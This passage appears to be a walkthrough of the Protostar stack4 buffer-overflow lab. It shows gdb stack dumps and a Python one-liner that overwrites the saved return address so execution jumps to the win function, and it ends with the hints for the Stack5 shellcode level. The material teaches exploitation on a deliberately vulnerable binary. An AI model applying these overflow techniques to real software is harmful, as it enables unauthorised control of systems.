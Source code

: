 ```py
Breakpoint 1 at 0x804841d: file stack4/stack4.c, line 16.
(gdb) r
Starting program: /opt/protostar/bin/stack4
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

Breakpoint 1, main (argc=1, argv=0xbffff804) at stack4/stack4.c:16
16      stack4/stack4.c: No such file or directory.
        in stack4/stack4.c
(gdb) x/30xw $esp
0xbffff700:     0xbffff710      0xb7ec6165      0xbffff718      0xb7eada75
0xbffff710:     0x61616161      0x61616161      0x61616161      0x61616161
0xbffff720:     0x61616161      0x61616161      0x61616161      0x61616161
0xbffff730:     0x61616161      0x00616161      0x08048430      0xbffff758
0xbffff740:     0xb7ec6365      0xb7ff1040      0x0804843b      0xb7fd7ff4
0xbffff750:     0x08048430      0x00000000      0xbffff7d8      0xb7eadc76
0xbffff760:     0x00000001      0xbffff804      0xbffff80c      0xb7fe1848
0xbffff770:     0xbffff7c0      0xffffffff
(gdb) x $ebp
0xbffff758:     0xbffff7d8
(gdb)
```
as you can see, 0x61616161 is our input `a`, and ebp is at 0xbffff758, which mean our return address is 0xbffff75c!

So now our job is done we pad our buffer up to ebp, then overwrite ret address with `win`.

I encountered weird error when redirect my input to gdb, so I took another approach to put my input into a file.

```py
Starting program: /opt/protostar/bin/stack4 < <(python -c "print 'a'*0x50 ")
/bin/sh: Syntax error: redirection unexpected
During startup program exited with code 2.
(gdb)
```
```py
user@protostar:/opt/protostar/bin$ python -c "print 'a'*0x4c + '\xf4\x83\x04\x08'" > /tmp/input.txt
```
```py
(gdb) r < /tmp/input.txt
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /opt/protostar/bin/stack4 < /tmp/input.txt
code flow successfully changed

Program received signal SIGSEGV, Segmentation fault.
0x00000000 in ?? ()
(gdb)
```
## Stack 5
### About
Stack5 is a standard buffer overflow, this time introducing shellcode.

This level is at /opt/protostar/bin/stack5

#### Hints

At this point in time, it might be easier to use someone elses shellcode
If debugging the shellcode, use \xcc (int3) to stop the program executing and return to the debugger
remove the int3s once your shellcode is done.
